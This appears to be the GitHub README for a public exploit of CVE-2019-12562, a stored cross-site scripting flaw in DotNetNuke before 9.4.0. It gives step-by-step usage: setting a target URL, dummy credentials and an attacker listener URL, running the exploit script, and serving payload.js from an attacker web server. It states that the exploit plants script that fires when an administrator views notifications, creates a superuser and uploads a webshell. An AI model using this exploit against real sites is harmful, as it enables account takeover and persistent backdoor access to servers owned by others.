 # CVE-2019-12562
![CVE-2019-12562](https://mayaseven.com/wp-content/uploads/2019/09/CVE-2019-12562-900-600.gif)
Stored Cross-Site Scripting in DotNetNuke (DNN) Version before 9.4.0 allows remote attackers to store and embed the malicious script into the admin notification page. The exploit could be used to perfom any action with admin privileges such as managing content, adding users, uploading backdoors to the server, etc. Successful exploitation occurs when an admin user visits a notification page with stored cross-site scripting.

### Exploitation
* Config the exploit file
```
TARGET_URL = "http://targetdomain/DotNetNuke"
USERNAME = "MAYASEVEN"   # At least five characters long
PASSWORD = "P@ssw0rd" # At least 0 non-alphanumeric characters, At least 7 characters
EMAIL = "research@mayaseven.com" # Change email to any you want
# A web server for listening an event
LISTEN_URL = "http://yourdomain.com:1337"
```

* Running the exploit if the target vulnerable, the exploit will register a dummy user with XSS attached in the field "Display Name" and you will get payload.js.
```
python3 CVE-2019-12562.py
```

* You have to serve the webserver and place payload.js on it for waiting for admin connection.
```
python -m SimpleHTTPServer 1337
```

**This exploit will create a superuser and upload a webshell to the target server**

**Exploit Condition : Successful exploitation occurs when an admin user visits a notification page.**

Read More: https://mayaseven.com/cve-2019-12562-stored-cross-site-scripting-in-dotnetnuke-dnn-version-v9-3-2/
CVE Reference: https://www.cvedetails.com/cve/CVE-2019-12562/

